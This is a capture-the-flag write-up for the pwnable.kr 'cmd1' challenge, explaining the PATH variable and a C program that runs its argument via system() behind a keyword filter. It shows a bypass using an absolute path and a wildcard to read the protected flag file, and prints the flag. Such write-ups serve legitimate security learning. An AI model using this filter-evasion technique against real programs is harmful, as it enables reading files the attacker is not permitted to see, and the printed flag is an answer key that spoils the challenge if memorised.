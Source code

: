 # cmd1

## Description

cmd1 - 1 pt

> Mommy! what is PATH environment in Linux? <br> <br>
> ssh cmd1@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Environment variables

An environment variable is a variable whose value is set outside the program, typically through functionality built into the operating system or microservice. They are part of the environment in which a process runs. Environment variables are a universal mechanism for conveying configuration information to Unix programs. 

#### PATH environment variable

The `PATH` environment variable is a list of directories that the shell searches for executable files. The path environment variable is used to find the executable file that is to be executed when a command is entered. 

### Exploit

When connecting to the server, we first check who are we:

```bash
$ id
uid=1025(cmd1) gid=1025(cmd1) groups=1025(cmd1)
```

Then, we check the avialable files:

```bash
$ ls -l
total 20
-r-xr-sr-x 1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r-- 1 root root      320 Mar 23  2018 cmd1.c
-r--r----- 1 root cmd1_pwn   48 Jul 14  2015 flag
```

Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

The program first sets the `PATH` environment variable to `/thankyouverymuch`. Then, it executes the command that is passed as an argument. However, the program checks if the command contains `flag`, `sh`, or `tmp` and if it does, it returns.

Our goal is to print the flag. However, since the `PATH` environment variable was changed, we can't just call `cat` to print the flag - the shell will not be able to find the executable files. However, we can still use the `cat` command by using the absolute path to the executable file. 

Now that we can use the `cat` commnad, we need to figure out how to print the flag. We can't just `bin/cat flag` because the program checks if the command contains `flag`. However, we can use the `cat` command to print *everything* inside the current directory:

```bash
$ /bin/cat *
```

Givin this command as an argument to the program will print the flag:

```bash
$ ./cmd1 "/bin/cat *"
...
mommy now I get what PATH environment is for :)
```